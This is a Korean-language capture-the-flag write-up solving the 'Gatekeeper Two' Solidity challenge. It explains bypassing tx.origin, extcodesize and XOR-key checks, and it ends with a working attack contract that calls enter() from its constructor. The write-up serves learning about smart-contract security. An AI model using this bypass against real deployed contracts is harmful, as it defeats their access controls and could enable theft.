

## 문제
### 지문
This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.
Things that might help:
- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## 배경지식

---

`msg.sender`는 현재 함수를 직접 호출한 주소이고, `tx.origin`은 트랜잭션을 처음 발생시킨 EOA 주소다. EOA가 컨트랙트 A를 호출하고, 컨트랙트 A가 다시 컨트랙트 B를 호출한다고 하자. 이때 B 입장에서 `msg.sender`는 A이고, `tx.origin`은 처음 트랜잭션을 보낸 EOA다.
중간에 컨트랙트를 하나 끼워 넣으면 `msg.sender != tx.origin` 조건을 만족시킬 수 있다. 13번 Gatekeeper One의 첫 번째 gate와 같은 구조다.

---

`extcodesize(addr)`는 특정 주소에 저장된 런타임 코드의 크기를 반환하는 EVM 명령어다. 일반적으로 이미 배포된 컨트랙트 주소에 대해 실행하면 코드 크기가 0보다 크다.
그런데 컨트랙트가 배포되는 과정에서는 먼저 creation code가 실행되고, 그 결과로 나온 runtime code가 배포 주소에 저장된다. `constructor`는 이 creation code 실행 중에 동작한다. 즉, `constructor`가 실행되는 동안에는 아직 현재 컨트랙트의 runtime code가 주소에 저장되지 않았다.
그래서 생성자 안에서 다른 컨트랙트를 호출하면, 호출을 받는 쪽에서 `extcodesize(caller())`를 검사해도 공격 컨트랙트의 코드 크기가 0으로 나온다. 이 조건으로 `gateTwo`를 통과할 수 있다.

---

XOR는 두 비트가 다를 때만 1을 반환하는 비트 연산이다. 같은 값을 두 번 적용하면 원래 값으로 돌아오는 성질이 있다.
$$
A \oplus B = C \quad \Rightarrow \quad B = A \oplus C
$$
문제에서는 `A ^ _gateKey == type(uint64).max`가 되어야 하므로, `_gateKey`는 `A ^ type(uint64).max`로 만들면 된다.
## 문제 코드 분석

---

첫 번째 gate부터 보자.
```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```
`enter`를 EOA가 직접 호출하면 `msg.sender`와 `tx.origin`이 같은 주소가 되므로 revert된다. 공격 컨트랙트를 하나 배포하고 그 컨트랙트가 `enter`를 호출하게 만들면, `msg.sender`는 공격 컨트랙트 주소가 되고 `tx.origin`은 내 EOA가 된다.
첫 번째 조건은 공격 컨트랙트를 통해 호출하는 것으로 통과할 수 있다.

---

두 번째 gate는 `extcodesize`를 본다.
```solidity
modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```
여기서 `caller()`는 현재 `GatekeeperTwo.enter`를 호출한 주소다. 공격 컨트랙트가 이미 배포된 뒤에 `enter`를 호출하면 `extcodesize(caller())`는 공격 컨트랙트의 runtime code 크기를 반환하므로 0이 아니다.
하지만 공격 컨트랙트의 `constructor` 안에서 `enter`를 호출하면 상황이 달라진다. 생성자 실행 중에는 공격 컨트랙트의 runtime code가 아직 배포 주소에 저장되지 않았기 때문에 `extcodesize(caller()) == 0`이 된다. 따라서 `enter` 호출을 생성자 안에 넣어야 한다.

---

세 번째 gate는 XOR 조건이다.
```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```
먼저 `msg.sender`를 해시하고, 그 해시의 앞 8바이트를 `uint64`로 바꾼 값을 만든다. 이 값을 `A`라고 하자.
```solidity
uint64 A = uint64(bytes8(keccak256(abi.encodePacked(msg.sender))));
```
조건은 다음과 같다.
$$
A \oplus key = 2^{64}-1
$$
따라서 `key`는 다음처럼 계산하면 된다.
$$
key = A \oplus (2^{64}-1)
$$
공격 컨트랙트 생성자 안에서 호출할 것이므로, `GatekeeperTwo` 입장에서 `msg.sender`는 공격 컨트랙트 주소다. 그래서 키를 계산할 때도 `address(this)`를 넣어야 한다.
## 풀이
`gateOne`은 컨트랙트를 통해 호출해서 넘기고, `gateTwo`는 공격 컨트랙트의 `constructor` 안에서 호출해서 넘긴다. 마지막으로 `gateThree`는 `address(this)`를 기준으로 해시 값을 계산한 뒤 `type(uint64).max`와 XOR해서 `_gateKey`를 만든다.
`enter`가 성공하면 `entrant = tx.origin`이 실행된다. 생성자 안에서 호출하더라도 트랜잭션을 처음 보낸 주소는 내 EOA이므로, 최종 `entrant`는 내 주소가 된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    bytes8 gatekey;
    address public target;

    constructor(address _addr) {
        target = _addr;
        gatekey = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max
        );
        (bool ok, ) = target.call(abi.encodeWithSignature("enter(bytes8)", gatekey));
        require(ok, "enter failed");
    }
}
```

